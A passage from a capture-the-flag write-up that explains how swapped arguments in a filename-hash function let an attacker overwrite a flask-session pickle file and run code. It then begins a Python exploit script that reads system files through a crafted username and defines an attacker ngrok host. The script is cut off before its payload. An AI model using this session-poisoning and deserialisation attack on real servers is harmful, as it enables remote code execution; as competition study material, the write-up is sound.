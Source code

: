 ```python
hashlib.md5(("session:" + session_id).encode('utf-8')).hexdigest()
```

(See [here](https://github.com/pallets-eco/flask-session/blob/bc2fe67958bff5e46023c4807b5e75ca350554eb/src/flask_session/defaults.py#L7), [here](https://github.com/pallets-eco/flask-session/blob/bc2fe67958bff5e46023c4807b5e75ca350554eb/src/flask_session/base.py#L218) and [here](https://github.com/pallets-eco/cachelib/blob/9a4de4df1bce035d27c93a34608a8af4413d5b59/src/cachelib/file.py#L210))

If the username starts with `/`, the file is stored in `<username>/<hash>[.<ext>]`. `<ext>` is ommitted if the filename doesn't contain any extension. `<hash>` is generated using the following code.

```python
def gen_filename(username, filename, timestamp=None):
    if not timestamp:
        timestamp = int(datetime.now().timestamp())
    hash_value = hashlib.md5(f"{username}_{filename}_{timestamp}".encode()).hexdigest()
    return hash_value
```

However, my teammate found out that this function is used wrong, and the arguments are swapped.

```python
save_filename = f"{gen_filename(file.filename, user.username)}{ext}"
```

This means if the username is `/app/flask_session` and the filename is `session:`, the hash will match
```python
hashlib.md5(f"session:_/app/flask_session_{int(datetime.now().timestamp())}").hexdigest()
```
This will match the file for the session ID `f"_/app/flask_session_{int(datetime.now().timestamp())}"`. By generating the verification code for such session ID and sending it through the cookie, we made `flask-session` to read the session file and execute the code.

### Final exploit

```python
import os
import pickle
import struct
import requests
from itsdangerous import Signer
from datetime import datetime, timedelta, timezone
import random
import uuid

# URL = "https://timeless-280e8f94de4a3a53.chal.uoftctf.org/"
URL = "http://localhost:5000/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
user = {
    "username": "/sys/class/net/eth0/address",
    "password": "foobar"
}
r = s.post(URL + "register", data=user)
r = s.post(URL + "login", data=user)
token = s.cookies['session']
r = s.post(URL + "profile", files={
    "about_me": "aaa",
    "profile_photo": ("v.jpeg", "xxx")
})

partial_content = b""
try:
    r = s.get(URL + "profile_picture", params={
        "username": "/sys/class/net/eth0/address"
```